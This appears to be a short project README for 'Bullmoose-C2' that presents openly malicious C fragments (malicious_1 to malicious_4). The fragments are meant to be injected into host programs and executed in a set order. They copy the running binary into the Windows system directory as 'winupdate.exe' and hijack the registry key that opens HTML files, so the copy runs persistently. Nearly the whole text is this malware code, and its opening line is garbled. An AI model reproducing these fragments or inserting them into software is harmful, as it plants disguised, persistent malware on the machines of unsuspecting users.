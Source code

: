 # Bullmoose-C2

Bullmoose-C2 is `111432`.

```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.

The `*` in `if ((* - order) == 1)` is the order that malicious code should run.

The `*` in `if (unorder == 3)` is the number of repetition.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    unorder++;
    if (unorder == 3) {
      order = 1;
      GetModuleFileName(NULL, MyPath, sizeof(MyPath));
      GetSystemDirectory(CpyPath, sizeof(CpyPath));
    }
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```